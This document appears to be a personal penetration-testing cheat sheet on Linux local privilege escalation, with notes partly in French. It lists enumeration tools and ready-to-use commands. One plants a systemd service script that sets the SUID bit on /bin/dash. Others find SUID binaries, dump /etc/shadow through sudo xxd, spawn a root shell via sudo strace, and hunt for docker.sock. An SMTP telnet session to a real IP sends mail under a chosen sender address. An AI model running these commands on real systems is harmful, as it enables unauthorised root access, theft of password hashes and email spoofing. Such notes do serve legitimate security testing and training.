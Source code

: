 # LPE Linux

## Tools 

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

{% embed url="https://github.com/rebootuser/LinEnum" %}

```text
lse.sh
LinEnum.sh
LinPeas
```

## Systemd

```text
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```text
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Docker

```text
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```text
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```text
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```text
sudo strace -o /dev/null /bin/sh
```

## SMTP Try to send email from server

```text
`telnet 90.84.191.81 25`
`EHLO YOLO`
`MAIL FROM:n.deligny@<domain>`
#250 2.1.0 Sender OK
`RCPT TO: a.camus@<domain>`
#250 2.1.5 Recipient OK
`DATA`
#354 Start mail input; end with <CRLF>.<CRLF>
`Subject: test message`
`This is the body of the message!`
`.`
#250 2.6.0 <4ced9105c9f84d78b7ff5b3e6304b1a6@<domain>> [InternalId=110870285778966, Hostname=<domain>] Queued mail for delivery
` quit`

```

\`\`

